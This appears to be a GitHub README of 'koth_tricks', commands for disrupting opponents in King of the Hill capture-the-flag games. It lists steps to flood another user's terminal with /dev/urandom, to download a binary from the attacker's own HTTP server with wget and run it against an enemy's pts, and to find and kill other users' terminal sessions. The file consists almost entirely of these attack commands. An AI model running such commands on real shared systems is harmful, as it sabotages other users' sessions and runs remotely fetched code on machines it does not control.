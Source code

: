 # koth_tricks
## Killing pts 
1. Breaking pts by spamming urandom on thier terminal<br>
    | cat /dev/urandom > /dev/pts/$PTS<br>
 
2. NyanCat<br>

    | sudo python3 -m http.server 80 # On your local machine<br>
    | wget http://yourip/nyancat # On the KOTH machine<br>
    | chmod +x nyancat <br>
    | ./nyancat > /dev/$pts  #replace $pts with pts of enemy<br>
    

3. Kill pts <br>
    | ps aux | grep pts <br>
    
    Then, look for a pts that is not yours and kill its process.<br>
    
    | kill -9 $PID #pid should be of a processs of enemy's pts<br>


